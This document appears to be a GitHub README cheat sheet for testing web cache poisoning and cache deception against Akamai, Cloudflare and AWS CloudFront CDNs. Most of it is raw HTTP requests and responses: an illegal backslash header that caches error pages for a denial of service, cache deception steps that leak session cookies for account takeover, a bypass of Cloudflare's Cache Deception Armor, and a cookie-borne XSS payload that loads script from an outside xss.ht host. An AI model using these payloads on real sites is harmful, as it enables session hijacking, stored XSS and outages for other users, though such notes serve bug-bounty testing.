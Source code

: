 # Test Cache Poisoing

**Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.**

## Case 1:

If the applicatoin doen not have a login functionality, but using Akami CDN, You can test this method:

    - request:
    raw:  
         GET /xx/xxx/xxx/?param HTTP/1.1
         Host: hostname
         User-Agnet: xyz....
         Accept: text/html,applicaton/xhtml, applicatoin/xml.....
         Accept-Encoding: gzip, deflate
         Upgrade-Isecure-Requests: 1
         Te: trailers
         Connection: close

         - Check if the server is caching normal requests or not (You can tell this by the response header "Server-Timing: cnd-cache; desc=HIT")
         
     response:
         HTTP/2 200 OK
         ...
         Server-Timing: cnd-cahce; desc=HIT
         ...
        
         - Add an Illegal Request Header into the requst body.
         GET /xx/xx/xxx/param HTTP/2
         Host: hostname
         \:
         User-Agnet: xyz....
         Accept: ...
         ....
         
         - If the response was successfully cached, when you open the URL on any browser, you should get 400 Bad Request
         
         
## Case 2:
**If the Applicatoin does have a Login Functionality**
- Create an account
- Test Case1
- Check if any sensitve information is doclosed in any page (e.g: session Token)
- Send the request to Repeater
- Add a Cacheable Extention (.js, .css) at the end of the URL and see if it gives 200 OK Response
- Open the Modified URL using your authenticated Account:
- Open the Same URL using curl or Private Web Browser window.
```bash
curl "https://target.site/?param=1" --compressed | grep -i 'cookies'
```
- If the Token was successfully cached, you should see the Token in the response
### If the Application is using Cloudflare CND
**Illegal header won't work*, and most Cloudflare Cusotmer using Cache Deception Armor*
**_Youc can bypass this protection using .avif file extension while is really unknown extenstion file._**

### Cache Deception TO Account Takeover:
     All cookies (even HTTPonly ones) are being disclosed in https://target.com/app/account/1.js
     if an authenticated user visit this URL all their cookies will be stored in the cache
     An attacker can then extract the cookie and hijack their session.

### TIps & Trick
- In some Applicatoin, if you add a semicolon (;) before the extension it may give you a 200 OK response
  xxx/xxx/xxx/;.js 
  HTTP/2 200 OK
  
 
 ## Case 3: Cache Poisoning to DoS:
 **In Akamai CND, if we send a backslash \ as a header, the server will respond with ```400 Bad Request``` Response**
     request:
 
     raw: 
        GET /products/xxx/xxxx/xxx/?test HTTP/2
        Host: www.host.com
        \: 
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Te: trailers

   Response:
        
        HTTP/2 400 Bad Request
        Content-Type: text/html;charset=iso-8859-1
        Content-Length: 70
        Cache-Control: max-age=297
        Expires: Thu, 21 Jul 2022 16:17:54 GMT
        Date: Thu, 21 Jul 2022 16:12:57 GMT
        Server-Timing: cdn-cache; desc=HIT
        Server-Timing: edge; dur=32
        Server-Timing: origin; dur=147
        Strict-Transport-Security: max-age=86400
        Ak-Uuid: 0.bc85d817.1658419977.1592c61

**This becomes an issue when the site uses caching servers. Sites typically only caches javascript, css and other files, but when sites like www.host.com also caches normal responses like**

_www.host.com/product/*_

_www.host.com/*_

etc... It become a very impactful bug:

## Case 4: Cache Poisoing to Stored XSS

***Try in cookies if cookies body reflecting in response body: Try Stored XSSS, BXSS**
 
**Try for Blind XSS on Cookie if target blocking try jquery payload ```$.getScript``` will help you.**
request:

        GET /xxxx/xx-xx.otf?triagethiss HTTP/2
        Host: www.host.com
        Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-xss,en;q=0.5
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Te: trailers

  response:
  
        <script>
        ...
        Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
        ....
        </script>

### Tips & Tricks:
**Test for XSS on any Request Heder, cookies, Custom Header, X-Forwarded-*  Header**

## Attacking AWS Cloudfront CDN
**If you see anywhere in response or xml Amazon error bucket stuff 404**
_Response:_
```
HTTP/2 200 Ok
Date: Thu, 01 Dec 2022 07:51:01 GMT
X-Cache: Hit from cloudfront
Via: 1.1 2dd59b0ea355cb92a87e9e385032622a.cloudfront.net (CloudFront)
X-Amz-Cf-Pop: JFK50-P8
X-Amz-Cf-Id: KQBmzmGEBmmIfprhoM0VXi7RjmiDnGkXkj-_-uJRAFKhCdNuNYVNBw==
Age: 1082260 https://link.medium.com/D65XUelUlwb
```
Try with header... 
  ```X-Amz-Server-Side-Encryption: Anything ```

```
GET /?test HTTP/2
Host: ██████
X-Amz-Server-Side-Encryption: AES256xss
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers https://link.medium.com/D65XUelUlwb 
```
  
_Response should 400 code_
```
HTTP/2 400 Bad Request
Date: Thu, 01 Dec 2022 07:51:01 GMT
Content-Type: application/xml
Cache-Control: public,max-age=600
X-Ua-Compatible: IE=edge,chrome=1
X-Amz-Cf-Pop: JFK50-P8
X-Amz-Cf-Id: oEWROikzmcKM5bviUrsPwyFQTbRzS8S7l_-kzH2NSLbChDsc9_K3yA==
Age: 4 https://link.medium.com/D65XUelUlwb 
```
## Testing Akamai Cache Poisoning
### First Detect with nuclei template which target enable caching.
**[Then read this bog](https://spyclub.tech/2022/12/14/unusual-cache-poisoning-akamai-s3/)**
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

